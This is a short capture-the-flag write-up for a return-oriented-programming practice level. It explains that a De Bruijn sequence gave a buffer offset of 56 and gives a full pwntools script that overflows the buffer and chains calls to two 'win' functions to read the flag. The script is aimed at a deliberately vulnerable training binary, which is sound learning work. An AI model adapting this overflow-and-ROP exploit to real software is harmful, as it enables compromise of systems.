 # Return Oriented Programming 2.1

Similar to level 2.0, however the file didn't provide us with the offset. Using De'Bruijn sequence, we found that the offset is 56.

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level2.0")

io = process()

print("===== STARTING EXPLOIT =====")

offset = 56

rop = ROP(elf)
rop.raw(b'A' * offset)
rop.win_stage_1()
rop.win_stage_2()

io.sendline(rop.chain())

io.recvuntil(b'Leaving!\n')
print(f'Flag: {io.recvline(False)}')
```

